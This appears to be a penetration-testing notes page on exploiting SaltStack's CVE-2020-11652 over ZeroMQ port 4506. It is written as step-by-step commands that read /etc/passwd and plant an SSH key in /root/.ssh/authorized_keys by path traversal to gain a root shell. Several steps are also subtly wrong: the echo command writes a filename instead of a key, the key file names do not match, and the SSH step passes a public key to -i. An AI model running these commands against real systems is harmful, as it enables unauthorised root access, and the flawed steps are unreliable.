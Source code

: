 ```yaml
---
title: ZeroMQ - 4506
layout: default
nav_order: 11
parent: Active Recon

---
```


# ZeroMQ Enumeration
{: .no_toc }

## Table of Contents
{: .no_toc .text-delta }
1. TOC
{:toc}

## CVE-2020-11652
SaltStack Exploit (Remote Code Execution) 

* https://github.com/Al1ex/CVE-2020-11652
* https://thehackernews.com/2020/05/saltstack-rce-vulnerability.html

#### Reading /etc/passwd file
```bash
python3 CVE-2020-11652.py -m $IP -p 4506 -lh 4444 --read /etc/passwd
```
#### SSH key / authorized_keys transfer
1. Create SSH public key: 
```bash
ssh-keygen
```

2. Take SSH public key and transfer to a file called `authorized_keys` 
```bash
echo example.pub > authorized_keys
```

3. Transfer `authorized_keys` to the target
```bash
python3 exploit.py -m $IP -p 4506 --upload-src ~/.ssh/redis.pub --upload-dest ../../../../../../root/.ssh/authorized_keys
```

4. SSH into the target with the created public SSH key
```bash
ssh -i ~/.ssh/example.pub root@$IP
```

5. Should be able to obtain root shell
